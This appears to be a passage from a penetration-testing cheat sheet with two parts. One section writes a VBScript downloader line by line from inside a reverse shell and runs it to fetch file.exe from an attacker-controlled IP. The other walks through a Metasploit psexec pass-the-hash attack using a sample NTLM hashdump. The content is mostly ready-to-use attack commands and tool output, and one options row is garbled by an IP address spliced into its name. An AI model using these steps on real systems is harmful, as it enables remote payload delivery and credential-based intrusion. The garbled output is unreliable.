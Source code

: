 ### Windows download with VBS
```cmd
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe

```

### Pass The Hash
```bash
# Login as user only with hashdump
# From this hashdump
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
```